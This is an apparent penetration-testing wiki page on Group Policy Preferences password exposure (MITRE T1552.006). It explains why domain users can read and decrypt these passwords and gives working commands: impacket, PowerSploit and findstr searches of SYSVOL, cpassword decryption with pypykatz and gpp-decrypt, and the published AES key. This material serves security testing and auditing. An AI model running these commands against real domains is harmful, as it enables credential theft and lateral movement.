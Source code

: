 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](../../ntlm/pth.md) attacks ([read more](../../ntlm/pth.md#limitations-tips-and-tricks)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted:man_shrugging:.

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's `smb_enum_gpp` module), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) (Python) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) (Ruby) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
 -o domain='domain.local'\
 -o username='someuser'\
 -o password='password'\
 -t cifs\
 '//domain_controller/SYSVOL'\
 /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```


=== Windows

From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context (see [impersonation](../impersonation.md)).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol*.xml
```

The decryption process is as follows

```
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
 Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
 IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```

:::


## Resources

[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)

[http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html](http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html)

[https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)

[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)


